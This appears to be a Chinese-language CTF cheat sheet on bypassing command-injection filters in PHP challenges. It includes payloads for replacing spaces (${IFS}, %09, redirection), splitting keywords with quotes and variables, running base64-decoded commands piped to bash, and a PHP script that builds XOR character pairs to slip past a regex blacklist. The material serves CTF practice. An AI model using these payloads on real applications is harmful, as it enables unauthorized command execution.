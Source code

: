 # Bypass (绕过)

[TOC]

---

### 多个命令执行

- `;`
- `\n   (%0a)`



### 空格Bypass

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

- **${IFS}**

可使用${IFS}代替空格。

```php
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

- **重定向符绕过(<>)**

```php
cat<>flag.txt
cat<flag.txt
```

- **%09(需要php环境)**

php环境下web输入%09等效于空格

```php
cat%09flag.txt
```

- **`%0a`换行符**



### 文件读取

(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容



## 关键字Bypass

### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`

我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass



### 编码绕过

#### Base64

```php
echo xxxx|base64 -d|bash
```

1. 使用反引号包含base64解码后的命令

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

2. 将base64解码后的命令通过管道符传递给bash

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```



### 变量拼接

使用shell变量拼接被黑名单限制的关键词

```php
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```



### 通配符绕过

- `?`通配符匹配单个字母
- `*`通配符匹配多个字母
- `[x-x]` or  `{x,x,x,x}`



### $1

```php
ca$1t fl$1ag.t$1xt
```



## 异或

### 异或脚本php

> 获取于网上的资源

```php
<?php
$myfile = fopen("text.txt", "w");  //新创建一个文件，也就是rce_or.txt，给他写的权限
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i); //ascii的前16个字符的十六进制应该是01，02，所以在前缀加‘0’
		}
		else{
			$hex_i=dechex($i);  //前16个后面的就不用加0了
		}
		if($j<16){
			$hex_j='0'.dechex($j);   //同理上方
		}
		else{
			$hex_j=dechex($j);      //同理上方
		}
		$preg ='/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";     //如果有符合条件的就筛掉，输出空格
    }
  
		else{             //可以使用的字符如下
		$a='%'.$hex_i;    //十六进制前加百分号就变成了URL编码格式
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));  //urldecode函数是解URL编码，把他们变成字符串，这里是字符串进行按位或运算，按位或运算后，可以得到新的字符，如%21和%00进行按位或就变成了!,这样我们就可以使用感叹号,就类似于合成新的字符
		if (ord($c)>=32&ord($c)<=126) {          //ord函数是将字符变成ASCII码
			$contents=$contents.$c." ".$a." ".$b."\n";     //每次到这里都写入刚刚建立的文本内
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
?>
```

